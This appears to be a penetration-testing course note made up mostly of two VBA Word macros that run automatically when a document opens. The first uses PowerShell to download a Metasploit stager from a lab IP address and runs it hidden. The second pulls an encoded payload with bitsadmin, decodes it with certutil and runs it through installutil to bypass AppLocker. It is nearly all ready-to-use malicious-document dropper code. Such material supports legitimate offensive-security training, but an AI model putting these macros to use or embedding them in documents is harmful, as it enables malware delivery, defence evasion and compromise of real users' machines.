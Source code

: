 ```vb
Sub Document_Open() 
	MyMacro 
End Sub 

Sub AutoOpen() 
	MyMacro 
End Sub 

Sub MyMacro() 
	Dim str As String 
	str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.49.62/msfstaged.exe', 'msfstaged.exe')" 
	Shell str, vbHide 
	Dim exePath As String 
	exePath = ActiveDocument.Path + "\msfstaged.exe" 
	Wait (2) 
	Shell exePath, vbHide 

End Sub 

Sub Wait(n As Long) 
	Dim t As Date 
	t = Now 
	Do 
		DoEvents 
	Loop Until Now >= DateAdd("s", n, t) 
End Sub 
```

Combined with AppLocker Whitelisting InstalUtil technique. (See the chapter for infos how to create and where to setup shellcode.)
[[Evasion Techniques and Breaching Defenses#8 3 3 PowerShell CLM Bypass]]
```vb
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    Call Shell("bitsadmin /Transfer myJob http://192.168.49.62/file.txt C:\users\student\enc.txt")
    Wait (2)
    Call Shell("certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe")
    Wait (2)
    Call Shell("C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe")

    Wait (2)

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

